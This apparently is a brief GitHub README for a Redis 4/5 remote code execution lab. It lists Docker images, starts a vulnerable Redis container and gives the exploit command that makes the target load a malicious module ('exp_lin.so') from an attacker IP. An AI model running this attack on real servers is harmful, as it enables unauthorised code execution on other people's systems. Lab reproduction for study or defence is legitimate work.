 # Redis-RCE
#### remote code execute for redis4 and redis5


##### python code from https://github.com/Ridter/redis-rce

![](./redis-rce.jpg)

### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 启动redis5 docker
`docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine`


### 0x03 git clone https://github.com/Ridter/redis-rce

redis_server: 10.10.20.166

attack_ip: 192.168.2.18

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

